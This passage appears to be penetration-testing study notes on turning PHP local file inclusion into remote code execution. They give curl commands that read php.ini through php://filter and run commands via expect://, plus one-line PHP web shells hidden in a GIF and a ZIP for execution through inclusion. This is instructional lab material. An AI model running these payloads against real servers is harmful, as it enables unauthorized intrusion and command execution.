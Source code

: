 > * The expect wrapper allows us to directly run commands through URL streams.
> * It basically acts similarly to a web shell

**To exploit the Expect Wrapper:**

1. Read the PHP Configuration file using base64 encoding:
   * `curl "http://<SERVER_IP>:<PORT>/index.php?language=php://filter/convert.base64-encode/resource=../../../../etc/php/7.4/apache2/php.ini"`
2. Check if `expect` is used (e.g. `extension=expect`)
   * `echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep expect`
3. Run commands using expect:
   * `curl -s "http://<SERVER_IP>:<PORT>/index.php?language=expect://id"`

***

## **LFI - File (Image) Upload to RCE**

> * For this kind of attack, it's not necessary to have a file upload vulnerability
> * The only requirement is to have a IMAGE file upload functionality on the target
> * If such functionality runs code, it's possible to inject an image containing a payload to gain RCE
> * Then, after injecting the payload, we can run it through the LFI vulnerability

**The steps are the following:**

1. Create an image (using the GIF8 magic bytes or any alternative) containing the following RCE payload: `echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif`
2. Identify the upload path, for example: `/index.php?language=./profile_images/`
3. Leverage the RCE through file inclusion: `http://<SERVER_IP>:<PORT>/index.php?language=./profile_images/shell.gif&cmd=id`

***

## **LFI - ZIP Upload to RCE**

> * There are a couple of PHP-only techniques that utilize PHP wrappers to achieve the same goal as the previous Image upload to RCE.
> * These techniques are the ZIP Upload and Phar Upload to gain RCE
> * These techniques may become handy in some specific cases where the simple Image Upload technique does not work.
> * We can utilize the zip wrapper to execute PHP code. However, this wrapper isn't enabled by default, so this method may not always work.

**The steps are the following:**

1. Create a PHP web shell script and zip it
   * `echo '<?php system($_GET["cmd"]); ?>' > shell.php && zip shell.jpg shell.php`
2. After uploading the shell.jpg archive, include it with the zip wrapper as (zip://shell.jpg), and then refer to any files within it with #shell.php (URL encoded).
3. Finally, we can execute commands as we always do with \&cmd=id, as follows:
   * `http://<SERVER_IP>:<PORT>/index.php?language=zip://./profile_images/shell.jpg%23shell.php&cmd=id`

***
